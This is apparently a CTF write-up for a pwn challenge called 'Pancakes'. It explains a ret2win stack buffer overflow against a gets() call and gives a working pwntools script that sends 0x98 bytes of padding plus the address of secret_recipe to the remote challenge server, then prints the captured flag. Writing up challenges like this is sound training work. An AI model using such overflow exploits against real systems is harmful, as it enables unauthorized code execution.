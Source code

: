 # Pancakes

Gets is called on rbp-0x90, there's a function called secret\_recipe which reads flag.txt and prints it to stdout. So, just your standard ret2win, overflow 0x90 + 8 bytes of the buffer to overwrite the return address to that of secret\_recipe

```python
from pwn import *
NUM_TO_RET = 0x90 + 8
padding = b'A' * NUM_TO_RET
e = ELF("./pancakes")
#p = e.process()
p = remote('jh2i.com',50021)
p.recvlines(2)
p.sendline(padding + p64(e.symbols['secret_recipe']))
p.interactive()
```

## Flag: flag{too\_many\_pancakes\_on\_the\_stack}

